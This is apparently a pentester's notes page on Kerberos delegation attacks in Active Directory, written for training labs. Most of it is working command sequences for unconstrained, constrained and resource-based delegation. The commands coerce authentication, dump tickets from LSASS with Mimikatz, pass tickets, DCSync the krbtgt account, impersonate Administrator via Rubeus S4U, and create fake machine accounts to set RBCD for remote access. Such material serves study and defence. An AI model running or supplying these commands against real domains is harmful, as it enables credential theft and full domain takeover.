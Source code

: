 # Kerberos Delegation

**Kerberos delegation:** allows services to impersonate the user in order to communicate with another service and perform actions on behalf the user.

***

{% hint style="warning" %}
Unconstrained Delegation: `TrustedForDelegation` = True

Constrained Delegation: `TrustedToAuthForDelegation` = True
{% endhint %}

***

## Unconstrained Delegation

Unconstrained Delegation allowing any service to use a user TGT in order to communicate with the **any** other service.

The TGT will be stored in the LSASS process.

### Enumerate

```powershell
# powerView
Get-NetComputer -Unconstrained
Get-DomainComputer -UnConstrained
Get-DomainComputer -Unconstrained -Properties DnsHostName
Get-DomainComputer -unconstrained | select samaccountname

# AD Module
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
Get-ADComputer -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
Get-ADComputer "IIS" -Properties TrustedForDelegation, TrustedToAuthForDelegation,msDS-AllowedToDelegateTo,PrincipalsAllowedToDelegateToAccount

```

### **Exploitation**

#### Kali

and also you can use [Coercer](https://github.com/p0dalirius/Coercer) to forced Authentication with the server or DC has Unconstrained Delegation using any domain user

```bash
Coercer.py coerce \
  -u <user> -d <domain> -p <password> \
  -t <targetServer_OR_User> -l <listener/UD> --always-continue

#  Ex
Coercer.py coerce -u arya.stark -d north.sevenkingdoms.local -p 'Needle' -t kingslanding.sevenkingdoms.local -l winterfell --always-continue
```

#### Windows

It is possible to extract the TGTs from the service's LSASS process using `Mimikatz` and perform pass the ticket.

```powershell
# Extract the TGT
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Pass the ticket
Invoke-Mimikatz -Command '"kerberos::ptt TGT.kirbi"' 
Rubeus.exe ptt /ticket:"base64 | file.kirbi" # Rubues allows base64 format as alternative
```

### **Printer bug**

The printer bug uses an RPC call of MS-RPRN (`print spooler service`) which allows any domain user can force any machine that running the Spooler service to connect to second a machine of the domain user's choice.

![image.png](<../../../.gitbook/assets/image (3).png>)

**1. Run on compromised Server Rubeus monitor**

```powershell
# run it on server has Unconstrained Delegation # to open Listener
Rubeus.exe monitor /interval:5 /nowrap

# spectator on ticket in memoty
```

<figure><img src="../../../.gitbook/assets/image 1 (1) (1).png" alt=""><figcaption></figcaption></figure>

2. Run on compromised Domain User the RPC Call using [SpoolSample](https://github.com/leechristensen/SpoolSample) \ [Coercer](https://github.com/p0dalirius/Coercer)

```powershell
MS-RPRN.exe \\dc.machine.local \\compromised.machine.local
```

3. pass-the-ticket

```powershell
#Copy the base64 encoded TGT
Rubeus.exe ptt /ticket:<ticket.kirbi>
```

4. DCSync

```powershell
mimikatz.exe
lsadump::dcsync /domain:domain.local /user:krbtgt
```

***

## Constrained Delegation

Constrained Delegation allowing **specified** services on **specified** computers to use a user TGT in order to communicate with the **any** other service.

in order to create a more restrictive delegation mechanism, Microsoft develop two Kerberos extensions known as Service for user (S4U):

* Service for User to Self (S4U2self) - allows a service to obtain forwardable TGS to itself on behalf of user. (server can impersonate user in the same range)
* Service for User to Proxy (S4U2proxy) - allows a service to obtain a TGS to another service on behalf of user. but services are from white list controlled by `msDS-AllowedToDelegateTo` attribute.

### **Enumerate**

```powershell
# powerView
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

# AD Module
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

### **Exploitation**

```powershell
Rubeus.exe s4u /user:websvc /aes256:<aes256_key> /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.local /ptt

# You can change the target service in the ticket
Rubeus.exe s4u /user:USer-Delegate-Service /aes256:<aes256_key> /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
```

***

## Resource Based Delegation

Instead of the white list of SPNs controlled by `msDS-AllowedToDelegateTo` attribute, resource based controlled by the `msDS-AllowedToActOnBehalfOfOtherIdentity`

To abuse RBCD(Resource Based Constrained Delegation \*\*\*\*) we need Write permissions over the target machine `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.

انا كماشين 1 و عايز اعمل اكسيس علي ماشين 2 فلازم انا ابقي تبع الوايت ليست اللي حطاها الماشين اللي بتستقبل الاتصال اللي هي ماشين 2 علي عكس الكونستريند دليكشين المرسل هو اللي بيحط وايت ليس للي هيستقبل

### **Enumerate**

```powershell
# Check if allowed to create machines
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select ms-ds-machineaccountquota

# Check Write premissions to modify msDS-AllowedToActOnBehalfOfOtherIdentity attribute on target machine
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}

# Check if RBCD is set using PowerView - This can be used to verify also
Get-DomainRBCD  
```

{% hint style="danger" %}
if **`ms-ds-machineaccountquota ≠0`** we can execute **`NoPac Attack`** which allowed to Escalate user privilege to domain Admin privilege using one command
{% endhint %}

### **Exploitation**

**Create fake machine**

```powershell
# Using Powermad
import-module powermad
New-MachineAccount -MachineAccount dcorp-student483 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

**Change security descriptor**

<figure><img src="../../../.gitbook/assets/imagggge.png" alt=""><figcaption></figcaption></figure>

```powershell
$TargetComputer = 'dcorp-mgmt'
$FakeComputer = 'dcorp-student483'

# Using PowerView
$ComputerSid = Get-DomainComputer $FakeComputer -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# One liner using PowerView
Set-DomainRBCD -Identity $TargetComputer -DelegateFrom $FakeComputer -Verbose   
# Using AD Module
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $FakeComputer 

# Verify
Get-DomainComputer dcorp-mgmt -Properties 'msds-allowedtoactonbehalfofotheridentity'
# Verify Result
msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}

# Verify using ADModule
Get-ADComputer dcorp-mgmt -Properties PrincipalsAllowedToDelegateToAccount
```

**Abuse using Rubeus**

```powershell
## Get the fake machine hash
Rubeus.exe hash /password:123456 /user:dcorp-student483 /domain:dollarcorp.moneycorp.local
## If used AD Module need to extract the hash from lsass using mimikatz
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'

# Imporsnate wch ask for S4U2Self + S4U2Proxy TGS
Rubeus.exe s4u /user:dcorp-student483$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:Administrator /msdsspn:http/dcorp-mgmt /ptt

# Verify (winrs on this case)
winrs -r:dcorp-mgmt cmd
```

\
